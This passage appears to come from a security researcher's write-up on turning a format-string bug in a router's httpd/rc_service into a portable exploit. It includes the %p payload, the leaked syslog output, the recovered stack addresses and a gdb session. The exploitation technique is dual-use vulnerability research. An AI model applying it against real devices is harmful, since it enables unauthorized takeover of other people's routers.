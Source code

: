 That means that while not everything will be randomized / rebased, mostly all the good stuff is.  The way to currently prove there's an arbitrary write is by manually calculating the target address via gdb or memory maps-- things you likely won't have access to if you're trying to, you know, get a shell or something. While this is good enough for a proof of concept, it's so, so unlikely for it to be portable from device to device.

## PoC Write to Portable Exploit?
I spent a while considering how to circumvent these requirements, but without a stack overflow, or something else I could leverage I couldn't see a way to reliably obtain control of the flow of execution. Then, after sent a whole bunch of %25p's and took a close look at the syslog:
```
Mar  9 12:37:18 rc_service: httpd 10377:notify_rc start_apps_install AAAA(nil)(nil)(nil)0x707474680x303120640x3a3737330x69746f6e0x725f79660x747320630x5f7472610x737070610x736e695f0x6c6c61740x414141200x257025410x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x257025700x700x80x80x80x80x80x80xbe873c180xbe873c6c(nil)(ni
```

Two memory addresses are leaked:
```
0xbe873c18
0xbe873c6c
```

After setting a breakpoint in logmessage_normal():
```bash
Breakpoint 1, 0x4015d22c in logmessage_normal () from /usr/lib/libshared.so
(gdb) stepi
0x4015d230 in logmessage_normal () from /usr/lib/libshared.so
[...]
(gdb) x 0xbe873c6c
0xbe873c6c:     0x72617473
(gdb) x/s 0xbe873c6c
0xbe873c6c:     "start_apps_install AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p"
(gdb) info frame
Stack level 0, frame at 0xbe873c18:
 pc = 0x4015d240 in logmessage_normal; saved pc = 0x40162dcc
 called by frame at 0xbe873c18
 Arglist at 0xbe8739f8, args:
 Locals at 0xbe8739f8, Previous frame's sp is 0xbe873c18
 Saved registers:
  r1 at 0xbe873c0c, r2 at 0xbe873c10, r3 at 0xbe873c14, r4 at 0xbe873c00, r5 at 0xbe873c04,
  lr at 0xbe873c08
(gdb) x/xw 0xbe873c04
0xbe873c04:     0xbe873c6c
(gdb)
```

The application truncates the data it writes to the syslog in two ways. When the data hits a high upper limit, it's simply written as  "[truncated]". If it's too much to write, but not yet at the "truncated" threshold, it just cuts off the output. As it turns out though, within the final few values that can be read out before being truncated is the payload's stack location. Awesome. The fact that the application actually truncates the data that's returned and it happens to do it just a few bytes after the leak is a little ironic, I guess.
